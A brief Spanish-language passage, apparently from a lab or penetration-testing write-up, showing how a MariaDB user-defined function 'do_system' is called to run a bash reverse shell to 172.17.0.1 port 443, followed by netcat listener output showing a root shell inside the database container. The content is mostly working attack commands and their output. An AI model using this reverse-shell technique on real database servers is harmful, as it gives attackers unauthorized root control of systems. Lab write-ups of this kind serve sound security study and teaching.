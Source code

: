 En este punto podemos ejecutar la función y enviarle un comando, este se ejecutará a nivel de sistema, en mi caso enviaré una shell a mi puerto `443`

~~~ bash
MariaDB [mysql]> SELECT do_system('/bin/bash -c "/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1"');
~~~

> `Atacante`

~~~ bash
nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 58160
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@0749e50021a5:/var/lib/mysql\# id
id
uid=0(root) gid=0(root) groups=0(root)
root@0749e50021a5:/var/lib/mysql\# 
~~~


